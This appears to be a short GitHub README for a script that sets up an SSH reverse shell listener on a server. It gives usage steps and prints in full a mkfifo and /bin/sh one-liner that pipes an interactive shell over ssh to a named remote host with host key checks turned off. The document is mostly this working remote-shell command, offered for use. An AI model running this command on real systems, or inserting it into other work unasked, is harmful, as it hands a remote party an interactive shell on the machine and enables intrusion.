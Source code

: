# SSH Reverse Shell
Scripts to setup a SSH reverse shell listener on a server

1. Setup on the server
    ```bash
    ./ssh-shell.sh -i principal_name
    ```
    ```
    Installing additional authorized principal rshell => principal_name
    ```

2. Listen on the server
    ```bash
    ./ssh-shell.sh
    ```
    ```
    Run the following command on the remote server:
        mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@internal.server.yahoo.com > /tmp/f; rm /tmp/f
    Waiting for connection
    ```

3. Connect from the client
    ```bash
    mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@internal.server.yahoo.com > /tmp/f; rm /tmp/f
    ```

